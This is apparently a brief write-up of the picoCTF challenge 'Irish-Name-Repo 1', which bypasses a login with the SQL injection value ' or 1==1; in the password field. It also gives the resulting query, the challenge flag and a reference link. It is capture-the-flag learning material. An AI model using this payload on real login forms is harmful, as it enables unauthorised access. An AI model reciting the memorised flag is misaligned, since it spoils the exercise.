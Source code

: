 # Nombre del reto
### Irish-Name-Repo 1
## Objetivo

## Solucion
```
username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}

	picoCTF{s0m3_SQL_fb3fe2ad}
```
## Referencias

https://www.w3schools.com/sql/sql_injection.asp